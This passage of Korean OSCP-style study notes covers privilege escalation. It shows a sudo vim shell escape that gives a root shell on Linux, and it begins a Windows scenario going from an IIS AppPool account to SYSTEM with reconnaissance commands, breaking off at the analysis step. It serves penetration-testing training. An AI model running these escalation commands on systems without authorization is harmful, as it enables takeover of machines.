 
## 3️⃣ 익스플로잇 (수동)

```bash
sudo /usr/bin/vim -c ':!/bin/bash'
whoami
→ root
```

🔓 루트 쉘 획득 완료

---

## 🧠 핵심 개념

- **sudo -l**: sudo 명령어로 루트 권한 실행 가능한 프로그램 찾기
- **vim, less, find, python** 등은 **쉘을 호출할 수 있는 특성**이 있음
- 사용자가 직접 명령어를 실행하는 방식 → OSCP 수동 원칙 충족

---

# 🪟 \[윈도우 권한 상승 시나리오 - OSCP 스타일]

---

## 🎯 시나리오

- 타깃: Windows Server 2016
- 초기 쉘 권한: `IIS APPPOOL\DefaultAppPool`
- 목적: `NT AUTHORITY\SYSTEM`으로 권한 상승

---

## 1️⃣ 정보 수집 (수동)

```powershell
whoami
hostname
systeminfo
```

```powershell
# 권한 있는 서비스 확인
Get-Service | Where-Object { $_.StartType -eq "Auto" -and $_.Status -eq "Running" }
```

```powershell
# 권한이 낮은 사용자로 실행되는 서비스가 SYSTEM 권한으로 실행되며,
# 실행파일 경로에 공백이 있거나, 권한이 잘못 설정된 경우 확인
```

---

## 2️⃣ 분석
